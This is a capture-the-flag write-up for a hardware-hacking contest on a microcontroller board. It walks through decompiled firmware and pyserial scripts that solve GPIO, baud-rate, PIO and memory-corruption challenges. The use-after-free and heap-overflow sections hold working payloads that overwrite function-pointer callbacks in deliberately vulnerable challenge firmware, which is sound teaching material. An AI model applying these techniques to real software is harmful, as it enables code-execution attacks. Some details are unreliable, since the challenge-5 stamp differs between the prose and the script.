









# **Third** Winner: **@zereza** (Miguel Peñaranda Padilla)

# HardwareHackingEs2026 CTF Writeup 

# [0x01] Long Short
First challenge, in this challenge the following information is provided.

```
CHALLENGE: Checking if GPIO2, GPIO3, GPIO4, GPIO5 are all shorted to GND...
```

This is very simple to solve, you just need to connect theese 4 GPIO pins to GND, I personally used 2 keys and a coin, but it can be done with a long wire more easily.



# [0x02] In Order Crazy Baud Rates
In this challenge we can assume we need to do something with the Baud Rates. Let's reverse the challenge:

```c
void chall_2_maybe(void)

{
  bool bVar1;
  uint uVar2;
  int iVar3;
  undefined1 auStack_1c8 [128];
  undefined1 auStack_148 [256];
  int baudrates [4];
  int i;
  uint local_24;
  uint local_20;
  int local_18;
  int idx;
  bool wrong_order;
  
  puts(s_Rules:_-_The_objective_of_this_C_ram_20032bc4);
  puts(s_CHALLENGE:_In_order_crazy_baud_r_ram_20032ff8);
  uVar2 = FUN_ram_2000079e(0x2c);
  baudrates[0] = INT_ram_20033088; // 19200
  baudrates[1] = INT_ram_2003308c; // 9600
  baudrates[2] = INT_ram_20033090; // 38400
  baudrates[3] = INT_ram_20033094; // 115200
  idx = 0;
  local_18 = current_baudrate;
  wrong_order = false;
  do {
    while (wrong_order) {
      puts(s_WRONG_ORDER!_You_must_obtain_the_ram_20033020);
      FUN_ram_20008f1a(500);
    }
    if (local_18 != current_baudrate) {
      local_18 = current_baudrate;
      if ((idx < 4) && (baudrates[idx] == current_baudrate)) {
        iVar3 = (uVar2 >> 2) * idx;
        local_20 = uVar2;
        if (idx != 3) {
          local_20 = (uVar2 >> 2) + iVar3;
        }
        local_24 = local_20 - iVar3;
        if (0x7f < local_24) {
          local_24 = 0x7f;
        }
        FUN_ram_2000083e(0x2c,auStack_148,0x100);
        FUN_ram_2001838e(auStack_1c8,auStack_148 + iVar3,local_24);
        auStack_1c8[local_24] = 0;
        printf(s_Part_%d_(@%u_baud):_%s_ram_2003306c,idx + 1,current_baudrate,auStack_1c8);b
        idx = idx + 1;
      }
      else {
        bVar1 = false;
        for (i = 0; i < 4; i = i + 1) {
          if (baudrates[i] == current_baudrate) {
            bVar1 = true;
            break;
          }
        }
        if (bVar1) {
          wrong_order = true;
        }
      }
    }
    FUN_ram_20008f1a(200);
  } while( true );
```

So basicly we have to change the baudrate at runtime without closing the connection. The values of the baudrate are the values at *baudrates[]* in order.

Cutecom didn't let me do this, so I did a little research in which I discovered pyserial, so I programmed a script.

```py
import serial
import time

PORT = "/dev/ttyACM0"

baudrates = [19200, 9600, 38400, 115200]
def main():
    ser = serial.Serial(PORT, baudrate=9600, timeout=1)

    ser.read_until(b"ENTER CHALLENGE")
    print("READ!")
    ser.write(b"c\n")
    time.sleep(2)
    data = ser.read_until(b"CHALLENGE: In order crazy baud rates!")
    print("Recibido:", data.decode())

    try:
        for i, baud in enumerate(baudrates):
            print(f"\nCambiando a {baud} bps")

            ser.baudrate = baud
            time.sleep(1)

            data = ser.read(100)
            if data:
                print("Recibido:", data.decode())

        print("\nProceso terminado")

    except serial.SerialException as e:
        print("Error serial:", e)

    finally:
        ser.close()
        print("Puerto cerrado")

if __name__ == "__main__":
    main()
```

# [0x03] PSRAM heap use-after-free
In this challenge the following information is provided:

```
=== The PSRAM HEAP Use-After-Free ===

uaf_solved() is at: 0x20001ECC
uaf_not_solved() is at: 0x20001F04

Step 1: Allocated victim struct at 0x11000AFC (sizeof: 20 bytes)
  victim->tag at offset 0 (16 bytes)
  victim->callback at offset 16 (4 bytes) = 0x20001F04

Step 2: Freeing victim struct... (pointer 0x11000AFC is now dangling!)

Step 3: Allocating new buffer of SAME size (20 bytes)...
  New buffer allocated at: 0x11000AFC
  *** SAME address as freed victim! The allocator reused the memory. ***

You write into new_buf, but the dangling 'victim' pointer still references that memory.
callback offset within struct: 16 bytes

Enter hex bytes to write into new_buf + ENTER:
NOTE: The first 10 bytes of new_buf must contain the correct challenge stamp.
You must reverse engineer the firmware to find the stamp for this challenge.
```

We need to abuse an UAF to overwrite the callback function in the victim struct. Before calling the callback it checks if the firts 10 bytes of new_buf match the challenge stamp. So our payload will look like this:

STAMP + 6 bytes padding + uaf_solved() addr

To get the stamp we need to reverse the challenge:

```c
void psram_uaf(void)

{
  int iVar1;
  char acStack_428 [1024];
  int iStack_28;
  uint uStack_24;
  int new_buf;
  int victim_struct;
  char *pcStack_18;
  int bytes_written;
  
  gp = &DAT_ram_2003c711;
  puts(&DAT_ram_200369d8);
  puts(s_===_The_PSRAM_HEAP_Use-After-Fre_ram_20036ff0);
  printf(s_uaf_solved()_is_at:_0x%08X_ram_2003701c,uaf_solved);
  printf(s_uaf_not_solved()_is_at:_0x%08X_ram_2003703c,uaf_not_solved);
  victim_struct = malloc(0x14);
  if (victim_struct == 0) {
    puts(s_ERROR:_PSRAM_malloc_failed!_ram_20037060);
  }
  else {
    FUN_ram_2001838e(victim_struct,s_UAF_VICTIM!!!!!!_ram_20037080,0x10);
    *(code **)(victim_struct + 0x10) = uaf_not_solved;
    printf(s_Step_1:_Allocated_victim_struct_a_ram_20037094,victim_struct,0x14);
    puts(s_victim->tag_at_offset_0_(16_byte_ram_200370d4);
    printf(s_victim->callback_at_offset_%u_(4_ram_200370fc,0x10,
           *(undefined4 *)(victim_struct + 0x10));
    printf(s_Step_2:_Freeing_victim_struct..._ram_20037134,victim_struct);
    free(victim_struct);
    printf(s_Step_3:_Allocating_new_buffer_of_ram_2003717c,0x14);
    new_buf = malloc(0x14);
    if (new_buf != 0) {
      FUN_ram_200182e6(new_buf,0,0x14);
      printf(s_New_buffer_allocated_at:_0x%08X_ram_200371e8,new_buf);
      if (new_buf == victim_struct) {
        puts(s_***_SAME_address_as_freed_victim_ram_2003720c);
      }
      else {
        printf(s_NOTE:_Different_address_(0x%08X_v_ram_20037258,new_buf,victim_struct);
      }
      puts(s_You_write_into_new_buf,_but_the_d_ram_200372a4);
      printf(s_callback_offset_within_struct:_%_ram_20037300,0x10);
      puts(s_Enter_hex_bytes_to_write_into_ne_ram_2003732c);
      printf(s_NOTE:_The_first_%d_bytes_of_new__ram_20037360,10);
      puts(s_You_must_reverse_engineer_the_fi_ram_20035aec);
      do {
        while( true ) {
          FUN_ram_20017a8e(*(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 4));
          FUN_ram_20017a8e(*(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 8));
          iVar1 = FUN_ram_20017ba0(acStack_428,0x400,
                                   *(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 4));
          if (iVar1 != 0) break;
          puts(s_Input_error,_try_again._ram_20035b3c);
        }
        pcStack_18 = acStack_428;
        for (bytes_written = 0; (*pcStack_18 != '\0' && (bytes_written < 0x14));
            bytes_written = bytes_written + 1) {
          for (; (*pcStack_18 != '\0' &&
                 ((((*pcStack_18 == ' ' || (*pcStack_18 == '\t')) || (*pcStack_18 == '\r')) ||
                  (*pcStack_18 == '\n')))); pcStack_18 = pcStack_18 + 1) {
          }
          if ((*pcStack_18 == '\0') ||
             (iVar1 = FUN_ram_20017f0a(pcStack_18,&DAT_ram_2003503c,&uStack_24,&iStack_28),
             iVar1 != 1)) break;
          *(uint *)(bytes_written + new_buf) = uStack_24 & 0xff;
          pcStack_18 = pcStack_18 + iStack_28;
        }
        if (0 < bytes_written) {
          printf(s_Wrote_%d_bytes_into_new_buf_(0x%_ram_200373b0,bytes_written,new_buf);
          puts(s_Step_4:_Calling_victim->callback_ram_200373d8);
          printf(s_victim->callback_now_=_0x%08X_ram_2003741c,*(undefined4 *)(victim_struct + 0x10))
          ;
          iVar1 = memcmp(new_buf,&uaf_stamp,10);
          if (iVar1 != 0) {
            do {
              printf(s_STAMP_CHECK_FAILED!_The_first_%d_ram_20037440,10);
              sleep(1000);
            } while( true );
          }
          puts(s_Stamp_check_PASSED!_ram_20035170);
          if ((*(code **)(victim_struct + 0x10) != uaf_solved) &&
             (*(code **)(victim_struct + 0x10) != uaf_not_solved)) {
            do {
              printf(s_ERROR:_victim->callback_(0x%08X)_ram_200374e8,
                     *(undefined4 *)(victim_struct + 0x10),uaf_solved,uaf_not_solved);
              sleep(1000);
            } while( true );
          }
          puts(s_Calling..._ram_20037594);
          (**(code **)(victim_struct + 0x10))();
          puts(&DAT_ram_200375a4);
          return;
        }
        puts(s_No_bytes_parsed._Try_again._ram_20035bb4);
      } while( true );
    }
    puts(s_ERROR:_PSRAM_malloc_failed_for_n_ram_200371bc);
  }
  return;
}
```

This is the part where it checks the stamp:



The uaf_stamp content is (hex): ff 3c 3b 98 76 bc df e4 05 07



And the final script will look like this:

```py
import serial
import time

PORT = "/dev/ttyACM0"

def main():
    ser = serial.Serial(PORT, baudrate=9600, timeout=1)

    ser.read_until(b"ENTER CHALLENGE")
    print("READ!")
    ser.write(b"u\n")
    time.sleep(2)
    data = ser.read_until(b"You must reverse engineer the firmware to find the stamp for this challenge.")
    print("Recibido:", data.decode())

    try:
        stamp = b"ff 3c 3b 98 76 bc df e4 05 07 "
        padding = b"00 00 00 00 00 00 "
        uaf_solved = b"cc 1e 00 20 " # Little endian
        payload = stamp + padding + uaf_solved + b"\n"
        ser.write(payload)
        time.sleep(0.5)
        data = ser.read(500)
        if data:
            print("Recibido:", data.decode())

        print("\nProceso terminado")

    except serial.SerialException as e:
        print("Error serial:", e)

    finally:
        ser.close()
        print("Puerto cerrado")

if __name__ == "__main__":
    main()
```

# [0x04] The dumb PSRAM heap overflow
In this challenge the following information is provided:

```
=== The Dumb PSRAM Heap Overflow ===

heap_solved() is at: 0x2000167E
heap_not_solved() is at: 0x200016B8

user_buf allocated at:       0x11000AFC (size: 64 bytes)
target struct allocated at:  0x11000B40 (sizeof: 20 bytes)
target->callback is at:      0x11000B50 (currently: 0x200016B8)

Distance from user_buf[0] to target->callback: 84 bytes
Enter hex bytes (e.g. 41 4A A2 ... AA BB CC DD) + ENTER:
NO bounds checking on the write <0xe2><0x80><0x94> overflow at will!
NOTE: The first 10 bytes of user_buf must contain the correct challenge stamp.
You must reverse engineer the firmware to find the stamp for this challenge.
```

So in this challenge we need to pass a stamp check, like in the previous one, and then overflow to the target_struct to overwrite *target->callback*

The distance between the *user_buf* and *target->callback* is 84 bytes, so the payload will look like this:

Stamp + 74 bytes padding + heap_solved() addr

To get the stamp let's reverse the challenge:

```c
void dumb_psram(void)

{
  int iVar1;
  char local_428 [1024];
  int local_28;
  uint mychar;
  int target_struct;
  int mybuffer;
  char *local_18;
  int contador;
  
  gp = &DAT_ram_2003c711;
  puts(s_Rules:_-_The_objective_of_this_C_ram_20035240);
  puts(s_===_The_Dumb_PSRAM_Heap_Overflow_ram_2003585c);
  printf(s_heap_solved()_is_at:_0x%08X_ram_20035884,FUN_ram_2000167e);
  printf(s_heap_not_solved()_is_at:_0x%08X_ram_200358a4,FUN_ram_200016b8);
  mybuffer = malloc(0x40);
  if (mybuffer == 0) {
    puts(s_ERROR:_PSRAM_malloc_failed_for_u_ram_200358c8);
  }
  else {
    target_struct = malloc(0x14);
    if (target_struct != 0) {
      memset(mybuffer,0,0x40);
      memcpy(target_struct,s_TARGET_STRUCT!!_ram_20035928,0x10);
      *(code **)(target_struct + 0x10) = FUN_ram_200016b8;
      printf(s_user_buf_allocated_at:_0x%08X_(s_ram_20035938,mybuffer,0x40);
      printf(s_target_struct_allocated_at:_0x%0_ram_20035970,target_struct,0x14);
      printf(s_target->callback_is_at:_0x%08X_(_ram_200359ac,target_struct + 0x10,
             *(undefined4 *)(target_struct + 0x10));
      puts(&DAT_ram_20033140);
      printf(s_Distance_from_user_buf[0]_to_tar_ram_200359e8,(target_struct + 0x10) - mybuffer);
      puts(s_Enter_hex_bytes_(e.g._41_4A_A2_._ram_20035a24);
      puts(&DAT_ram_20035a60);
      printf(s_NOTE:_The_first_%d_bytes_of_user_ram_20035a98,10);
      puts(s_You_must_reverse_engineer_the_fi_ram_20035aec);
      do {
        while( true ) {
          FUN_ram_20017a8e(*(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 4));
          FUN_ram_20017a8e(*(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 8));
          iVar1 = FUN_ram_20017ba0(local_428,0x400,
                                   *(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 4));
          if (iVar1 != 0) break;
          puts(s_Input_error,_try_again._ram_20035b3c);
        }
        contador = 0;
        for (local_18 = local_428; *local_18 != '\0'; local_18 = local_18 + local_28) {
          for (; (*local_18 != '\0' &&
                 ((((*local_18 == ' ' || (*local_18 == '\t')) || (*local_18 == '\r')) ||
                  (*local_18 == '\n')))); local_18 = local_18 + 1) {
          }
          if ((*local_18 == '\0') ||
             (iVar1 = FUN_ram_20017f0a(local_18,&DAT_ram_2003503c,&mychar,&local_28), iVar1 != 1))
          break;
          *(uint *)(contador + mybuffer) = mychar & 0xff;
          contador = contador + 1;
        }
        if (0 < contador) {
          printf(s_Wrote_%d_bytes_starting_at_user__ram_20035b58,contador,mybuffer);
          printf(s_target->callback_now_points_to:_0_ram_20035b88,
                 *(undefined4 *)(target_struct + 0x10));
          iVar1 = memcmp(mybuffer,&dumb_psram_stamp,10);
          if (iVar1 != 0) {
            do {
              printf(s_STAMP_CHECK_FAILED!_The_first_%d_ram_20035bd4,10);
              sleep(1000);
            } while( true );
          }
          puts(s_Stamp_check_PASSED!_ram_20035170);
          if ((*(code **)(target_struct + 0x10) != FUN_ram_2000167e) &&
             (*(code **)(target_struct + 0x10) != FUN_ram_200016b8)) {
            do {
              printf(s_ERROR:_target->callback_(0x%08X)_ram_20035c7c,
                     *(undefined4 *)(target_struct + 0x10),FUN_ram_2000167e,FUN_ram_200016b8);
              sleep(1000);
            } while( true );
          }
          puts(s_Calling_target->callback()..._ram_20035d2c);
          (**(code **)(target_struct + 0x10))();
          puts(&DAT_ram_20035d50);
          return;
        }
        puts(s_No_bytes_parsed._Try_again._ram_20035bb4);
      } while( true );
    }
    free(mybuffer);
    puts(s_ERROR:_PSRAM_malloc_failed_for_t_ram_200358f8);
  }
  return;
}
```

This is the part where it checks the stamp:



The dumb_psram_stamp content is (hex): 3e 1c da 11 3f 61 d3 b2 23 8d



My final script look like this: 

```py
import serial
import time

PORT = "/dev/ttyACM0"

def main():
    ser = serial.Serial(PORT, baudrate=9600, timeout=1)
    ser.read_until(b"ENTER CHALLENGE")
    print("READ!")
    ser.write(b"p\n")
    time.sleep(2)
    data = ser.read_until(b"You must reverse engineer the firmware to find the stamp for this challenge.")
    print("Recibido:", data.decode())

    try:
        stamp = b"3e 1c da 11 3f 61 d3 b2 23 8d " 
        padding = b"00 "*74
        heap_solved = b"7e 16 00 20 "
        payload = stamp + padding + heap_solved + b"\n"
        ser.write(payload)
        time.sleep(0.5)
        data = ser.read(500)
        if data:
            print("Recibido:", data.decode())

        print("\nProceso terminado")

    except serial.SerialException as e:
        print("Error serial:", e)

    finally:
        ser.close()
        print("Puerto cerrado")

if __name__ == "__main__":
    main()
```

# [0x05] The not so dumb PSRAM heap overflow
This challenge is very similar to the previous one, but with some difficulty added. The following information is provided:

```
=== The Not So Dumb PSRAM Heap Overflow ===

heap2_solved() is at: 0x20001A4C
heap2_not_solved() is at: 0x20001A86

user_buf allocated at:   0x11000AFC (size: 32 bytes)
guard struct at:         0x11000B20 (sizeof: 16 bytes, magic at offset 0)
target struct at:        0x11000B34 (sizeof: 16 bytes, callback at offset 12)

Guard magic must be: 0x69CAFE69 (little-endian: 69 FE CA 69)
Calculate your offsets from the addresses above. No distances are given!

Enter hex bytes (overflow from user_buf) + ENTER:
NOTE: The first 10 bytes of user_buf must contain the correct challenge stamp.
You must reverse engineer the firmware to find the stamp for this challenge.␍
```

So in this challenge we need to pass, first the stamp check, and second the guard magic. Then we need to overwrite the callback of the target struct.

The distance from user_buf to guard struct is 36 bytes. And the offset from guard_struct to callback is 32

The payload will look like this:

stamp + 26 bytes padding + magic + 28 bytes padding + heap2_solved() addr

To get the stamp let's reverse the function

```c
void not_dumb_psram(void)

{
  int iVar1;
  char local_42c [1024];
  int local_2c;
  uint local_28;
  int target;
  int *guard;
  int user_buf;
  char *local_18;
  int local_14;
  
  gp = &DAT_ram_2003c711;
  puts(&DAT_ram_20035e14);
  puts(s_===_The_Not_So_Dumb_PSRAM_Heap_O_ram_20036578);
  printf(s_heap2_solved()_is_at:_0x%08X_ram_200365a8,FUN_ram_20001a4c);
  printf(s_heap2_not_solved()_is_at:_0x%08X_ram_200365c8,FUN_ram_20001a86);
  user_buf = malloc(0x20);
  if (user_buf == 0) {
    puts(s_ERROR:_PSRAM_malloc_failed_for_u_ram_200358c8);
  }
  else {
    guard = (int *)malloc(0x10);
    if (guard == (int *)0x0) {
      free(user_buf);
      puts(s_ERROR:_PSRAM_malloc_failed_for_g_ram_200365f0);
    }
    else {
      target = malloc(0x10);
      if (target != 0) {
        memset(user_buf,0,0x20);
        *guard = 0x69cafe69;
        memcpy(guard + 1,s_GUARD_PAD!!!_ram_20036620,0xc);
        memcpy(target,s_TARGET_INFO!_ram_20036630,0xc);
        *(code **)(target + 0xc) = FUN_ram_20001a86;
        printf(s_user_buf_allocated_at:_0x%08X_(s_ram_20036640,user_buf,0x20);
        printf(s_guard_struct_at:_0x%08X_(sizeof:_ram_20036674,guard,0x10);
        printf(s_target_struct_at:_0x%08X_(sizeof_ram_200366bc,target,0x10,0xc);
        puts(&DAT_ram_20033140);
        printf(s_Guard_magic_must_be:_0x%08X_(lit_ram_20036708,0x69cafe69,0x69,0xfe,0xca,0x69);
        puts(s_Calculate_your_offsets_from_the_a_ram_2003674c);
        puts(s_Enter_hex_bytes_(overflow_from_u_ram_20036798);
        printf(s_NOTE:_The_first_%d_bytes_of_user_ram_20035a98,10);
        puts(s_You_must_reverse_engineer_the_fi_ram_20035aec);
        do {
          while( true ) {
            FUN_ram_20017a8e(*(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 4));
            FUN_ram_20017a8e(*(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 8));
            iVar1 = FUN_ram_20017ba0(local_42c,0x400,
                                     *(undefined4 *)(PTR_DAT_ram_2003aef0_ram_2003b19c + 4));
            if (iVar1 != 0) break;
            puts(s_Input_error,_try_again._ram_20035b3c);
          }
          local_14 = 0;
          for (local_18 = local_42c; *local_18 != '\0'; local_18 = local_18 + local_2c) {
            for (; (*local_18 != '\0' &&
                   ((((*local_18 == ' ' || (*local_18 == '\t')) || (*local_18 == '\r')) ||
                    (*local_18 == '\n')))); local_18 = local_18 + 1) {
            }
            if ((*local_18 == '\0') ||
               (iVar1 = FUN_ram_20017f0a(local_18,&DAT_ram_2003503c,&local_28,&local_2c), iVar1 != 1
               )) break;
            *(uint *)(local_14 + user_buf) = local_28 & 0xff;
            local_14 = local_14 + 1;
          }
          if (0 < local_14) {
            printf(s_Wrote_%d_bytes_starting_at_user__ram_20035b58,local_14,user_buf);
            iVar1 = memcmp(user_buf,&not_dumb_stamp,10);
            if (iVar1 != 0) {
              do {
                printf(s_STAMP_CHECK_FAILED!_The_first_%d_ram_20035bd4,10);
                sleep(1000);
              } while( true );
            }
            puts(s_Stamp_check_PASSED!_ram_20035170);
            printf(s_guard->magic_=_0x%08X_(expected_0_ram_200367d0,*guard,0x69cafe69);
            if (*guard == 0x69cafe69) {
              puts(s_Guard_check_PASSED!_ram_20036880);
              printf(s_target->callback_=_0x%08X_ram_20036898,*(undefined4 *)(target + 0xc));
              if ((*(code **)(target + 0xc) != FUN_ram_20001a4c) &&
                 (*(code **)(target + 0xc) != FUN_ram_20001a86)) {
                do {
                  printf(s_ERROR:_target->callback_(0x%08X)_ram_200368b4,
                         *(undefined4 *)(target + 0xc),FUN_ram_20001a4c,FUN_ram_20001a86);
                  sleep(1000);
                } while( true );
              }
              puts(s_Calling_target->callback()..._ram_20035d2c);
              (**(code **)(target + 0xc))();
              puts(&DAT_ram_20035d50);
              return;
            }
            do {
              printf(s_GUARD_CHECK_FAILED!_magic_was_co_ram_200367fc,*guard,0x69cafe69);
              sleep(1000);
            } while( true );
          }
          puts(s_No_bytes_parsed._Try_again._ram_20035bb4);
        } while( true );
      }
      free(guard);
      free(user_buf);
      puts(s_ERROR:_PSRAM_malloc_failed_for_t_ram_200358f8);
    }
  }
  return;
}
```

This is the part where it checks the stamp:



The not_dumb_stamp content is (hex): 3e 1c da 11 3f 61 d3 b2 23 8d



The final script will look like this:

```py
import serial
import time

PORT = "/dev/ttyACM0"

def main():
    ser = serial.Serial(PORT, baudrate=9600, timeout=1)

    ser.read_until(b"ENTER CHALLENGE")
    print("READ!")
    ser.write(b"o\n")
    time.sleep(2)
    data = ser.read_until(b"CHALLENGE: In order crazy baud rates!")
    print("Recibido:", data.decode())

    try:
        stamp = b"a4 a0 a6 f5 26 bc c7 89 bc af " 
        padding_magic = b"00 "*26
        magic = b"69 fe ca 69 " # Little endian
        padding_callback = b"00 "*28
        callback = b"4c 1a 00 20 "
        payload = stamp + padding_magic + magic + padding_callback + callback + b"\x00\n"
        ser.write(payload)
        time.sleep(0.5)
        data = ser.read(500)
        if data:
            print("Recibido:", data.decode())

        print("\nProceso terminado")

    except serial.SerialException as e:
        print("Error serial:", e)

    finally:
        ser.close()
        print("Puerto cerrado")

if __name__ == "__main__":
    main()
```


# [0x06] PIO put led on
This challenge was the hardest one for me, but it's the one from which I've learned the most

The following information was provided

```
CHALLENGE: Control the LED on GPIO 25 with PIO!
PIO0, State Machine 0, running at 10 kHz
Side-set: GPIO 25 (LED), 1 pin, NON-optional. Bit 12 = LED state. Delay = bits 11:8 (max 15).
SET pins: base = GPIO 20, 2 pins (GPIO 20, GPIO 21). 'set pins, V' writes V to GPIO20/21.
Pin direction is set to OUTPUT for GPIO 25, 20, 21
Pattern required:
  Phase 1: LED ON  ~3s,  GPIO20=1 GPIO21=0 (set pins=1, side=1)
  Phase 2: LED OFF ~8s,  GPIO20=0 GPIO21=1 (set pins=2, side=0)
  Phase 3: LED ON  ~10s, GPIO20=1 GPIO21=1 (set pins=3, side=1)
  Phase 4: LED OFF stay, GPIO20=0 GPIO21=0 (set pins=0, side=0)
Enter 10 stamp bytes (hex) followed by PIO instructions as 16-bit hex words, max 32 instructions:
  Format: SS SS SS SS SS SS SS SS SS SS IIII IIII ... (stamp + PIO program)
```

First we get the stamp like in the other challenges:





**Let's code the PIO!**

PIO means Programmable Input/Output, its a feature of Raspberry Pi Pico that allows you to create small "hardware programs" within the chip itself

The challenge consists of writing a **PIO** that controls the onboard LED (GPIO 25) and two auxiliary pins (GPIO 20, GPIO 21) following an exact timing pattern.

To do this I had to learn how the PIO asm works. The most challenging part was figuring out how to do the delay. At first I couldn't think of a way to make a delay for more than 3s, which it looked like this in asm

```
set y, 31 [15] side 1
loop_3s_1_1:
set x, 31 [15] side 1
loop_3s_2_1:
nop [15] side 1
jmp x-- loop_3s_2_1 side 1 [15]
jmp y-- loop_3s_1_1 side 1 [15]
```

This loop does about 30k cycles of NOPs, 

Then, doing more researching, I learned about the ISR and OSR registers, this registers interact with the instructions in/out respectively.

I used the OSR register and the out instruction to nest another loop.

```
out <destination>, <bit_count>

Shift Bit count bits out of the Output Shift Register (OSR), and write those bits to Destination. Additionally, increase the
output shift count by Bit count, saturating at 32.
```

With this I was able to program the asm script within 32 instructions

```
.program blink
.side_set 1
.wrap_target
  phase1:
  set pins, 1 side 1
  
  set y, 31 [15] side 1
  loop_3s_1_1:
  set x, 31 [15] side 1
  loop_3s_2_1:
  nop [15] side 1
  jmp x-- loop_3s_2_1 side 1 [15]
  jmp y-- loop_3s_1_1 side 1 [15]

  phase2:
  set pins, 2 side 0 [15]

  set x, 1 side 0
  mov osr, x side 0
  
  loop_6s:
  set y, 31 [15] side 0
  loop_6s_1:
  set x, 31 [15] side 0
  loop_6s_2:
  nop [15] side 0
  jmp x-- loop_6s_2 side 0 [15]
  jmp y-- loop_6s_1 side 0 [15]
  out x, 1 side 0 [15]
  jmp x-- loop_6s side 0 [15]
 
  phase3:
  set pins, 3 side 1

  set x, 3 side 1
  mov osr, x side 1
  
  loop_9s:
  set y, 31 [15] side 1
  loop_9s_1:
  set x, 31 [15] side 1
  loop_9s_2:
  nop [15] side 1
  jmp x-- loop_9s_2 side 1 [15]
  jmp y-- loop_9s_1 side 1 [15]
  out x, 1 side 1 [15]
  jmp x-- loop_9s side 1 [15]  

  phase4:
  set pins, 0 side 0

  loop_10s:
  set y, 31 [15] side 0
  loop_10s_1:
  set x, 31 [15] side 0
  loop_10s_2:
  nop [15] side 0
  jmp x-- loop_10s_2 side 0 [15]
  jmp y-- loop_10s_1 side 0 [15]

.wrap
```

I compiled it with pioasm and made a simple python script to solve the challenge

```py
import serial
import time

PORT = "/dev/ttyACM0"

def main():
    ser = serial.Serial(PORT, baudrate=9600, timeout=1)

    ser.read_until(b"ENTER CHALLENGE")
    print("READ!")
    ser.write(b"l\n")
    time.sleep(2)
    data = ser.read_until(b"Format: SS SS SS SS SS SS SS SS SS SS IIII IIII ... (stamp + PIO program)!")
    print("Recibido:", data.decode())

    try:
        stamp = b"3a 4c f5 50 02 40 96 83 b6 fe " 
        asm = b"f001 ff5f ff3f bf42 1f43 1f82 ef02 e021 a0e1 ef5f ef3f af42 0f4b 0f8a 6f21 0f49 f003 f023 b0e1 ff5f ff3f bf42 1f55 1f94 7f21 1f53 e000 ef5f ef3f af42 0f5d 0f9c"
        payload = stamp + asm + b"\n"
        time.sleep(0.5)
        ser.write(payload)
        print("OUTPUT:\n\n\n")
        while True:
            data = ser.readline()
            if data:
                print(data.decode())

        print("\nProceso terminado")

    except serial.SerialException as e:
        print("Error serial:", e)

    finally:
        ser.close()
        print("Puerto cerrado")

if __name__ == "__main__":
    main()
```

Resources used: 

